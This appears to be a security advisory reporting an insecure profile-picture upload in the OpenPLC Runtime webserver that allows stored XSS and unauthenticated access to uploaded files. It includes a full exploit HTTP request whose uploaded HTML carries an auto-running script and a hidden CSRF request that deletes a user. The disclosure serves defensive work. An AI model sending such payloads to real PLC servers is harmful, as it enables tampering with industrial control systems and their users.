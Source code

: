 
# 🔥 Insecure File Upload in OpenPLC Runtime Webserver

## 📌 Summary

I discovered a vulnerability in the OpenPLC Runtime webserver (released version: 2024-12-31) that allows authenticated users to upload arbitrary files (e.g., `.html`, `.svg`) as profile pictures. These files are stored in the `/static/` directory and are accessible **without authentication**, enabling stored XSS or malicious hosting scenarios.

---

## 🧪 Affected Component

- Route: `/edit-user`
- Affected: File upload functionality for profile images

---

## ⚠️ Impact

- Arbitrary file upload with insufficient MIME and extension validation
- Stored XSS / Client-side code execution
- Malicious content hosting
- Unauthenticated access to uploaded files
- Potential pivot for CSRF or phishing attacks

---

## 🎯 Attack Vector

1. Authenticated user uploads a `.html` or `.svg` file as a profile picture.
2. File is stored in `/static/` and given a predictable ID (e.g., `http://localhost:8080/static/336029.html`)
3. Any user (even unauthenticated) can access the uploaded file directly.
4. If the file contains JavaScript or other malicious code, it will execute in the victim’s browser.

---

## 📸 Visual Proof of Concept

### Dashboard when PLC is running
![dashboard.png](./dashboard.png)

### Uploading a malicious `.html` file
![choose file.png](./choose%20file.png)

### Using "All Files" to bypass image filter
![file.png](./file.png)

### Uploaded XSS executed from `/static/`
![poc.png](./poc.png)

---

## 🎞️ Video PoCs

- **Basic PoC demo**  
  📽️ [`poc de base.mp4`](./poc%20de%20base.mp4)

- **Unauthenticated access demonstration**  
  ! [`unauthenticated.mp4`](https://github.com/user-attachments/assets/9133f961-1aaf-4223-a3e9-26311774e0ad)

- **CSRF Potential Abuse**  
  📽️ [`poc csrf.mp4`](./poc%20csrf.mp4)

---

## 👤 User Management Abuse

### Users before attack
![Users.png](./Users.png)

### Adding a file via profile picture field
![choose file.png](./choose%20file.png)

### Injected user saved with arbitrary name
![Users.png](./Users.png)

---

## 📤 Exploit Request Example with Burp Suite Repeater

```http
POST /edit-user HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1397
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: [OpenPLC URL]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW3GoLRyFS7dyLS2B
User-Agent: [UA]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8080/edit-user?table_id=10
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=[cookie]
Connection: close

------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_id"

10
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="full_name"

OpenPLC User
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_name"

openplc
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_email"

openplc@openplc.com
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_password"

mypasswordishere
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="file"; filename="poc cve.html"
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
  <title>PoC – Unfiltered Upload</title>
</head>
<body>
  <h1>Proof of Concept</h1>

  <p>Payload uploaded on vulnerable endpoint. If filtering is broken, executing script below proves stored XSS.</p>

  <h2>XSS Demo (auto-executed)</h2>
  <script>alert('PoC xss')</script>

  <h2>CSRF</h2>
  <img src="http://127.0.0.1:8080/delete-user?user_id=[User ID]" style="display:none" />

  <h2>document.domain</h2>
  <p>Opened from: <script>document.write(document.domain)</script></p>

  <h2>Manual link to malicious HTML</h2>
  <a href="https://google.com/" target="_blank">Click to redirect on google.com</a>
</body>
</html>

------WebKitFormBoundaryW3GoLRyFS7dyLS2B--
